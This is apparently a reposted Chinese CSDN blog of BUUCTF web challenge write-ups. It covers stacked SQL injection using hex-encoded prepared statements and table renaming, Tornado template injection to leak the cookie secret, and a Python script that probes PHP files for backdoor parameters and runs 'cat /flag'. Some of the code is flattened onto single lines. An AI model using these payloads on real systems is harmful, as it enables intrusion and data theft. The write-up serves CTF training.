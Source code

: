 <!--yml
category: 未分类
date: 2022-04-26 14:44:42
-->

# 【web】BUUCTF-web刷题记录_weixin_30684743的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30684743/article/details/101336977](https://blog.csdn.net/weixin_30684743/article/details/101336977)

本来一题一篇文章，结果发现太浪费了，所以整合起来了，这篇博文就记录 BUUCTF 的  web 题目的题解吧！

# 随便注

随便输入一个单引号，报错

![](img/970f79b1eff051aec8d6b769ebe7843d.png)

order by 3就不行了

![](img/1ba17dde9f3e44f6be0ab9d56bff1126.png)

尝试联合查询的时候出现提示：

```
"/select|update|delete|drop|insert|where|\./i"
```

![](img/9853aa89ee2b5247629622ce9034e208.png)

一个正则可视化网站：https://regexper.com

![](img/385085ba1a87b1b4e72419b8b7e24bff.png)

 使用堆叠注入：1';show tables;#

![](img/0a0a31bc288c6b191458a145d4dd9fe8.png)

看一下表里有什么列名：1';show columns from `1919810931114514`;#

（注意，字符串为表名的表操作时要加反引号）

![](img/5d557f1baf02cf6e801f39ec2cf094d7.png)

但是没办法使用 select * from `1919810931114514`

看网上师傅们有两种方法，第一种：**mysql 预定义语句**

```
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;Prepare execsql from @a;execute execsql;#

hex decode 以后是：?inject=1';SeT@a=select * from `1919810931114514`;Prepare execsql from @a;execute execsql;#
```

 ![](img/6a8698ae71a07f42062cb101d314abfc.png)

还有一种方法时是：**改表名 **这样查询的时候就可以查询到 flag

```
?inject=1';
rename tables `words` to `test`;rename tables `1919810931114514` to `words`;
alter table `words` change `flag` `id` varchar(100);#
```

意思分别是：把 words 表改名为 test，把 1919810931114541 改名为 words

把列名 flag 改为 id

这样在 1'; or 1=1# 查询的时候就会把所有的都列出来，这样就可以看到 flag 了

![](img/fb97ae9ec12e701615fccafb0e5213c8.png)

# easy_tornado

打开看到有三个文件：

![](img/513aa2c8d94059b555809da1d2dbf095.png)

三个文件内容如下：

![](img/287b34c56b523361dafdf8f0b2c3c90f.png)

![](img/b503bc128e439e89aaf224f2c9803f84.png)

![](img/99c5575e6f2b72c8d6a62ad38fdbc12b.png)

通过 url 知道，访问一个文件需要知道：filename 跟 filehash

![](img/2368b1990853a38e09a29aa4186f0b40.png)

企图直接访问是不行的，想到了 burp 抓包，但是抓了半天没抓到，看了网上的 wp 是 **模版注入**

![](img/3c6c2a425ccb239b11a6293452329c18.png)

tornado 是一个 python 的模板，welcome.txt 中的 render 是 python 中的一个渲染函数，

报错时候的 url 是这样的

![](img/0847e905fdf7ecb7c078cd492a3b24ac.png)

尝试把后面换成：{{111}}，输出了！

![](img/24ab1c0008f9c25b41f88ccbd29734e9.png)

在 tornado 模板中，存在一些可以访问的快速对象，例如：

```
 <title>
     {{ escape(handler.settings["cookie"]) }}
 </title>
```

那么输入：**{{handler.settings}}**

![](img/7863b572c9ae653230df638f2253dd47.png)

拿到 cookie 就 OK 了！

```
import hashlib
def md5value(s):
    md5 = hashlib.md5() 
    md5.update(s) 
    return md5.hexdigest()
def jiami(): 
    filename = '/fllllllllllllag' cookie_s ="ea7d75de-4ca5-486a-a69c-e690f3a8c217" print(md5value(filename.encode('utf-8'))) x=md5value(filename.encode('utf-8')) y=cookie_s+xprint(md5value(y.encode('utf-8'))) jiami()
```

![](img/7f6a1548116de9c12d2da90369d7b99e.png)

# 高明的黑客

访问提示源码在 www.tar.gz

![](img/5d4f7dbbb8162f1030d165407f509ac7.png)

在网址后面加上 www.tar.gz 是可以下载下来的

![](img/afe2742134e81157e97e974d8620ba84.png)

下下来里面超级多 php 文件，用大佬的 python 脚本筛选出来

```
import os,re
import requests
filenames = os.listdir('D:/anquan/localtest/PHPTutorial/WWW/CTFtraining/BUUCTF/src/')
pattern = re.compile(r"\$_[GEPOST]{3,4}\[.*\]")
for name in filenames:
    print(name) with open('D:/anquan/localtest/PHPTutorial/WWW/CTFtraining/BUUCTF/src/'+name,'r') as f: data = f.read() result = list(set(pattern.findall(data))) for ret in result: try: command = 'echo "got it"' flag = 'got it' # command = 'phpinfo();' # flag = 'phpinfo' if 'GET' in ret: passwd = re.findall(r"'(.*)'",ret)[0] r = requests.get(url='http://127.0.0.1/CTFtraining/BUUCTF/src/' + name + '?' + passwd + '='+ command) if "got it" in r.text: print('backdoor file is: ' + name) print('GET: ' + passwd) elif 'POST' in ret: passwd = re.findall(r"'(.*)'",ret)[0] r = requests.post(url='http://127.0.0.1/CTFtraining/BUUCTF/src/' + name,data={passwd:command}) if "got it" in r.text: print('backdoor file is: ' + name) print('POST: ' + passwd) except : pass
```

 我参考的网上的 wp 直接把 x 开头之前的 php 文件删掉了，不然要跑很长时间（php 版本要用 7 以上的）

![](img/c12827e46bc9b28b6ac5594e2c1ce5d0.png)

访问 xk0SzyKwfzw.php?Efa5BVG= cat /flag 得到 flag

![](img/73896e553f61451a115419846534e6d3.png)